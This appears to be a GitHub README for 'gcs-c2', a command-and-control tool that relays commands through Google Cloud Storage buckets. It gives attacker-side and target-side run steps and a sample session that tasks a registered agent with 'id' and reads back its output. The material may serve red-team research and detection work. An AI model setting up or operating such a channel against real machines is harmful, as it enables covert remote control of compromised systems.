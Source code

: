 # gcs-c2
C2 over google cloud storage buckets

## Usage
Once you have populated service account credentials and a bucket with read/write access, run the `server`, THEN the `client`

On the attacker:
```
$ python3 server.py
```

On the target:
```
$ python3 client.py
```

Once both are up:
```
GCP Shell> list_agents
New agent registered: 263c81c7-fe3a-47ee-8a7b-5898218a77be
Agent: 263c81c7-fe3a-47ee-8a7b-5898218a77be, Status: active
GCP Shell> send_task 263c81c7-fe3a-47ee-8a7b-5898218a77be id
Sent task to agent 263c81c7-fe3a-47ee-8a7b-5898218a77be
GCP Shell> get_responses 263c81c7-fe3a-47ee-8a7b-5898218a77be
Response from 263c81c7-fe3a-47ee-8a7b-5898218a77be: Command: id
Exit code: 0
Stdout: uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),134(wireshark),135(kismet),998(docker)

GCP Shell>
```